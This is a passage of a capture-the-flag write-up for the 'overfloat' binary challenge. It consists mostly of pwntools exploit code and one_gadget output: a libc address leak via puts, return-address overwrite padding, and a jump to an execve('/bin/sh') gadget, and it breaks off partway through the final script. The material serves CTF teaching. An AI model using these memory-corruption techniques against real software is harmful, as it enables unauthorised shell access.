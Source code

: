 ```python
    # Print out the target output
    print(target.recvuntil('BON VOYAGE!\n').decode('utf8'))

    
    # Scan in, filter out the libc infoleak, calculate the base
    leak = target.recv(6)
    leak = u64(leak + "\x00"*(8-len(leak)))
    libc.address = leak - libc.symbols['puts']
    log.info("libc base: " + hex(libc.address))
```

Now, Let's find ```one_gadget``` to call ```system```:
```console
┌─[evyatar@parrot]─[/facebook_ctf/pwn/overfloat]
└──╼ $ one_gadget libc-2.27.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

```

Now, Let's fill again the buffer and get a shell using the first address from ```one_gadget```:
```python
with log.progress("Step 3: Fill the space between buffer to return address"):
    for i in range(7): # 56 / 8 = 7 iterations
        sendVal(0xdeadbeefdeadbeef)

with log.progress("Step 4: use onegadget to get shell"):
	one_gadget = 0x4f2c5 # one_gadget libc-2.27.so
	one_gadget_address = libc.address + one_gadget
	sendVal(one_gadget_address)
	
	target.sendline('done')
	target.interactive()

```

Write all together [exp.py](exp.py):
```python
from pwn import *

pf = lambda x: struct.pack('f', x)
uf = lambda x: struct.unpack('f', x)[0]

target = process('./overfloat')
libc = ELF('libc-2.27.so')

putsGot = 0x602020
putsPlt = 0x400690
main = 0x400993
popRdi = 0x400a83

def sendVal(x):
    v1 = x & ((2**32) - 1)
    v2 = x >> 32
    target.sendline(str(uf(p32(v1))))
```